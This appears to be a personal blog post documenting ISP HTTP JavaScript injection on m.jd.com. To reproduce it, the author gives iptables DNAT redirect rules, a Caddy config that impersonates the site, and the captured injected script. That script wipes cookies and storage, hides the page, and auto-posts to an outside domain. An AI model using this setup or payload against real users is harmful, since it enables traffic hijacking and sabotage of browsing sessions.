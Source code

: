 ```yaml
---
title: Simple HTTP Hijacking
date: 2018-06-08 11:01:11
tags:
  - Tech
---
```


# Preface

As a man heavily relies on network stablity, I connected to Internet via CT Network.

However, after experiencing the DNS response packet fully-filled with alphabet within two days, I experienced a HTTP JavaScript Hijacking again. This time, they hijacked ```m.jd.com:80``` . I reproduced this "feature" using my Arch Linux PC Chrome, iPad Safari, iPad Chrome again and again.

I will provide my packet capture files here.

DNS Capture:  [PCAP File](/asset_files/udp53_filledNONSENSE.pcap)

Hijack Capture: [CHLS File - Charles Proxy](/asset_files/jd_hijack_ipad.chls)

They still don't admit it. And they asked me if they could go to my house and check it themselves. I accepted. However, the process of reproduction is tested under a very clear environment. Now, they set up a whitelist and want to cheat me.

I won't accept any cheat. Now, I started to deploy a hijack by myself now.


# Deployment

## Add NAT to redirect traffic

>`REDIRECT` alters the destination IP address to send to the machine itself. In other words, locally generated packets are mapped to the 127.0.0.1 address. It's for redirecting local packets. If you only want to redirect the traffic between services on the local machine, it will be a good choice.

> `DNAT` is actual [Network Address Translation](http://en.wikipedia.org/wiki/Network_address_translation). If you want packets destinated outside of the local system to have the destination altered, it's the better choice of the two, as `REDIRECT` will not work.


iptables Config

```bash
# sysctl -w net.ipv4.ip_forward=1
# iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT
# iptables -t nat -A PREROUTING -p tcp -m tcp -s <SOURCE IP> -d <DESTINATION IP> -j DNAT --to-destination <WEB SERVER IP>:<PORT>
```

## Caddy for listening on port 80

Caddy Config

```
http://m.jd.com:80 {
   timeouts none
   log stdout
   root /tmp/testweb
}
```

/tmp/testweb/index.html (File dumped from pcap file)

```html
<!DOCTYPE html><html><head><title></title></head><body><script type="text/javascript">function qs(n,m,v,u){u=u||D.URL;var t=u.match(eval('/(\\?|#|&)('+n+')=([^&]*)(&|$)/i'));if(t){m=m||t[2];v=t[3]||v}return m&&v?'&'+m+'='+v:''}function fc(){var h=location.host,x='=;expires='+new Date(0).toUTCString(),y=x+';path=',z=y+'/;domain=',l=[x,y,y+'/',z+h,z+h.substr(h.indexOf('.'))],o=D.cookie.match(/[^ =;]+(?=\=)/g);if(o&&S)for(var i=o.length;i--;)for(var j=5;j--;)D.cookie=o[i]+l[j];if(window.localStorage)localStorage.clear();if(window.sessionStorage)sessionStorage.clear();setTimeout(fc,500)}function fip(){var u=('http://m.quanwangfa.com/').replace(/(\?|#)&/g,'$1');D.body.appendChild(D.createElement('iframe')).src="javascript:var D=document;D.write(\"<html><body><form method='post'action='"+u+"'><input name='t'value='"+location.host+"'/><input name='p'value='0'/><input name='g'value='_top'/><input type='submit'id='s'/></form></body></html>\");var s=D.getElementById('s');if (s.click) s.click();D.close()";setTimeout(function(){if(S){D.cookie='home=s';location.reload()}},3000)}var D=document,d=D,S=!D.cookie.match(/home=s/i);D.body.style.visibility='hidden';D.oncontextmenu=function(){return false};fc();fip()</script></body></html>
```

# Done!

tested. 

Update: 2 weeks after I report to MIIT, still can be reproduced on my HUAWEI device.

# Referrence

https://serverfault.com/questions/179200/difference-beetween-dnat-and-redirect-in-iptables
http://xstarcd.github.io/wiki/Linux/iptables_forward_internetshare.html
https://my.oschina.net/tridays/blog/785483